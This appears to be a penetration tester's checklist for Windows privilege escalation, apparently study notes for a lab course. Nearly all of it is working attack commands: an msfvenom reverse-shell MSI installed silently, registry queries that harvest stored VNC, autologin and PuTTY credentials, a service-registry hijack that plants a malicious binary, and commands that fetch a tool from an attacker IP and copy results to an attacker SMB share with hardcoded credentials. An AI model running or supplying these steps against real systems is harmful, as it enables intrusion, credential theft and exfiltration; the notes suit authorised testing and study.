 ```
msfvenom -p windows/shell_reverse_tcp lhost= lport= -f msi -o setup.msi
msiexec /quiet /qn /i C:\Temp\setup.msi
```
- [ ] Other registry queries
```
### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  
```

- [ ] REGSVC ACL
```
Check for registry services 
> Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Look for access group permissions for NT AUTH/Interactive 

Create a new window service binary, check attack directory for source (net user add works) 
> x86_64-w64-mingw32-gcc windows_service.c -o x.exe

Add to the registry path 
> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
Execute using 
> sc start regsvc 
```

- [ ] If RDP, try ProcMon to look for DLLs
- [ ] If mail server, try capstone lab from chapter 11
### Automated enum
- [ ] Windows-privesc-check
```
iwr -uri http://192.168.45.xxx/windows-privesc-check2.exe -Outfile windows-privesc-check2.exe 
.\windows-privesc-check2.exe --audit -a -o privesc-report.txt

impacket-smbserver -smb2support test $(pwd) -username er83@R@39nfr0E4 -password kfro@59e$w$21fN$ # on kali

New-PSDrive -Name "Z" -PSProvider FileSystem -Root "\\192.168.45.xxx\er83@R@39nfr0E4" -Credential (New-Object System.Management.Automation.PSCredential("er83@R@39nfr0E4", (ConvertTo-SecureString "kfro@59e$w$21fN$" -AsPlainText -Force))) -Persist

Copy-Item -Path "C:\Users\xxx\privesc-report.txt" -Destination "Z:\privesc-report.txt

Remove-PSDrive -Name "Z"
```
